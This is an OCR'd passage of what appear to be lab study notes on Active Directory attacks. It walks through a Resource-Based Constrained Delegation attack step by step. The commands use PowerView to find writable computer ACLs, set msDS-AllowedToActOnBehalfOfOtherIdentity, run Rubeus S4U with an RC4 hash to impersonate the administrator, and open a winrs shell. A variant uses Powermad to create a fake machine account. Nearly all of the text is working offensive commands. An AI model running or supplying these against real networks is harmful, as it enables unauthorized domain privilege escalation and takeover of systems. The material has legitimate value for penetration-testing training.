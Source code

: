     # Step 3. Access the service
    winrs -r:us-mssql cmd

    NOTE: Use the same name for remote connection as specified in msdsspn attribute

    >> Resource Based Constrained Delegation (RBCD) attack

    - Requires admin rights on one of domian joined system or ablility to join our computer to domain
    - Write permission on Target System to set msDS-AllowedToActOnBehalfOfOtherIdentity attribute

    CASE I: Using existing Computer for RBCD attack

    STEP 1. Identify the Computer(us-helpdesk) where our principal (mgmtadmin) has GenericAll/Write access 

    ps> Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}

    ps> Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

    STEP 2. Set the delegation attribute to a Computer Account where we have local admin access (student41$)

    # Find the SID of Computer Account (student41)
    ps> Get-DomainComputer -Identity student41 -Properties objectSid

    # Login as mgmtadmin user, and Set the delegation attribute to Computer Account (us-helpdesk)
    ps> $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-210670787-2521448726-163245708-16151)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "us-helpdesk" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

    STEP 3. Perform PTH using student41$ computer account

    ps> Rubeus.exe s4u /user:student41$ /rc4:b62c7c107072398d7c81a2639e986b97 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt

    STEP 4. Access the system as admin
    winrs -r:us-helpdesk cmd.exe

    CASE II. Creating fake computer account for RBCD attack

    - Every domain user can add machines to Ad based ms-DS-MachineAccountQuota which is set to 10, which will allow us to create fake computer object with known password and add it to domain
    - Write Permission on Target System to set msDS-AllowedToActOnBehalfOfOtherIdentity

    STEP 1. Create a new Machine Account user PowerMad.ps1 script
    ps> . C:\AD\Tools\Powermad.ps1
    ps> New-MachineAccount -MachineAccount studentcompX

    STEP 2. Use above Computer account (created by powermad) instead of student41$ machine account, and rest of the steps stay the same.
